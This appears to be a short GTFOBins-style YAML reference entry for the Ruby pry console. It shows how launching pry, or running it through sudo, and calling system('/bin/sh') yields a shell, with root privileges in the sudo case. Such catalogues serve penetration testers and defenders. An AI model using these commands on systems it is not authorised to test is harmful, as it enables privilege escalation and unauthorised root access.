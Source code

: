 ```yaml
---
functions:
  shell:
    - code: |
        pry
        system("/bin/sh")
  sudo:
    - code: |
        sudo pry
        system("/bin/sh")
---
```

